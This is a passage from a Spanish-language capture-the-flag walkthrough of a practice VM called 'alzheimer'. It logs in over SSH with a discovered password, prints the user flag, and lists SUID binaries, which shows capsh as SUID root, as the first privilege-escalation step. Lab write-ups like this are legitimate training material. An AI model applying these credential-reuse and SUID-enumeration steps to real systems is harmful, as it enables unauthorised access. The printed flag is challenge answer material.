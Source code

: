 Metemos como contraseña `Ihavebeenalwayshere!!!`, con esto estaremos dentro.

Info:

```
The authenticity of host '192.168.28.17 (192.168.28.17)' can't be established.
ED25519 key fingerprint is SHA256:O2S8HAtlJxSTJJgIQUiIzsbSKX/qj9Thyn38JM6wsBY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.28.17' (ED25519) to the list of known hosts.
medusa@192.168.28.17's password: 
Linux alzheimer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Oct  3 06:00:36 2020 from 192.168.1.58
medusa@alzheimer:~$ whoami
medusa
```

Vamos a leer la `flag` del usuario.

> user.txt

```
HMVrespectmemories
```

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
1249     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    15846    428 -rwsr-xr-x   1 root     root         436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   137057     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
       60     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
     8850    156 -rwsr-xr-x   1 root     root         157192 Feb  2  2020 /usr/bin/sudo
     3888     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
     3415     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
     3562     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
       63     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
       59     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
     3890     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
       62     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
     5584     28 -rwsr-sr-x   1 root     root          26776 Feb  6  2019 /usr/sbin/capsh
```
